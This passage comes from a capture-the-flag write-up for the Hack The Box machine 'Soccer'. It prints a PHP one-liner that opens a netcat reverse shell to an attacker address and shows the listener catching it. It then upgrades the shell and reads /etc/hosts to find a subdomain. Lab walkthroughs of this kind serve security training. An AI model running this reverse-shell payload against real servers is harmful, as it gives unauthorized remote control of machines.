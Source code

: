 {% highlight php %}
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 9595>/tmp/f')?>
{% endhighlight %}

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/s4.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/s5.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>


{% highlight console%}
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ nc -lvnp 9595
listening on [any] 9595 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.194] 59412
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
www-data@soccer:~/html/tiny/uploads$ ^Z
zsh: suspended  nc -lvnp 9595
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ stty raw -echo; fg % 1                                                                                                                                                                                                          148 ⨯ 1 ⚙
[1]  + continued  nc -lvnp 9595
                               export TERM=screen
www-data@soccer:~/html/tiny/uploads$ whoami
www-data
www-data@soccer:~/html/tiny/uploads$

{% endhighlight %}

## User
From here I ran [linpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20230618-1fa055b6).  Looking through the output of linpease I noticed the subdomain `soc-player` in `/etc/hosts`

{% highlight console %}
www-data@soccer:~/html/tiny/uploads$ cat /etc/hosts
127.0.0.1       localhost       soccer  soccer.htb      soc-player.soccer.htb

127.0.1.1       ubuntu-focal    ubuntu-focal

{% endhighlight %}

Adding `soc-player.soccer.htb` to `/etc/hosts` and navigating to the subdomain in my browser, I find a page similar to "HTB FootBall Club," but with a Signup page.

I sign up for an account.
<div class="text-center">
    <div class="img-fluid">
        {% include figure.html path="assets/img/s6.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>
